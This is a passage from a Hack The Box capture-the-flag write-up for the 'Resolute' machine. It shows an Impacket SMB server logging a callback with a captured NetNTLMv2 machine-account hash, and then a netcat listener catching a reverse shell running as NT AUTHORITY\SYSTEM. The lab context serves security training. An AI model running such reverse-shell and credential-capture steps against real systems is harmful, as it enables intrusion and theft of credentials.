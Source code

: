   
Back on your attacking machine, you can verify that there was a callback on your `smbserver.py`:
```
kali@kali:~/htb/boxes/resolute/root$ sudo smbserver.py share smb
[sudo] password for kali: 
Impacket v0.9.21.dev1+20200225.153700.afe746d2 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.169,54564)
[*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
[*] User RESOLUTE\RESOLUTE$ authenticated successfully
[*] RESOLUTE$::MEGABANK:4141414141414141:37ff36d5abe41ccc903a5d8a21e4ea25:010100000000000000985d6e0537d6016e684c27952e132800000000010010006500460075006f005200420074007900030010006500460075006f0052004200740079000200100058006d00610078004b007100570043000400100058006d00610078004b007100570043000700080000985d6e0537d60106000400020000000800300030000000000000000000000000400000f48cd4423e722cab13301e56d5633fdea21506fe2303dd3d70b555e2bd1fa1830a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360034000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)
[*] Handle: 'ConnectionResetError' object is not subscriptable
[*] Closing down connection (10.10.10.169,54564)
[*] Remaining connections []
```
  
  
Back on your netcat listener, you should've gotten back a shell:
```
kali@kali:~$ sudo nc -lvnp 4444
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.10.14.64] from (UNKNOWN) [10.10.10.169] 54565
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

:)

